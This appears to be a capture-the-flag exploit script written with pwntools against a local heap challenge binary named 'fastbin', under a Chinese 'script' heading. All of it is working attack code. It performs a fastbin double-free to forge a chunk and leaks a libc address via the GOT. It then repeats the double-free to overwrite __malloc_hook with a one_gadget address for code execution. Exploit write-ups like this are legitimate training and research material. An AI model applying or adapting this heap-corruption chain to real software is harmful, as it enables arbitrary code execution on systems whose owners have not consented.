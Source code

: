 ### 脚本

```python
from pwn import *
context.log_level='debug'
p=process('./fastbin')

def launch_gdb():
    context.terminal=['gnome-terminal','-x','sh','-c']
    gdb.attach(proc.pidof(p)[0])

def new(s,c):
    p.recvuntil('>')
    p.sendline('1')
    p.recvuntil('size')
    p.sendline(str(s))
    p.recvuntil('data')
    p.send(c)
    

def delete(i):
    p.recvuntil('>')
    p.sendline('2')
    p.recvuntil('index')
    p.sendline(str(i))
    

def show(i):
    p.recvuntil('>')
    p.sendline('3')
    p.recvuntil('index?')
    p.sendline(str(i))

launch_gdb()
p.recvuntil('name')
p.sendline(p64(0)+p64(0x60))
p.recvuntil('hello')
new(0x50,'aaa')#0
new(0x50,'bbb')#1

delete(0)
delete(1)
delete(0)

new(0x50,p64(0x602100))#2=0
new(0x50,'ccc')#3=1
new(0x50,'ddd')#4=0
new(0x50,'e'*0x10+p64(0x602018))#free_plt#5
show(0)

leak=u64(p.recv(6)+'\x00\x00')-0x84540#数值为动态调试出来
success('leak libc:'+hex(leak))
malloc_hook=leak+0x3c4b10#p&__malloc_hook  -0x23 0x7f---0x70

new(0x60,'111')#6
new(0x60,'222')#7
delete(6)
delete(7)
delete(6)
new(0x60,p64(malloc_hook-0x23))
new(0x60,'333')#8
new(0x60,'444')#9
new(0x60,'\x00'*3+p64(0)*2+p64(leak+0xf0364))#0x4527a 0xf0364 0xf1207 #10
```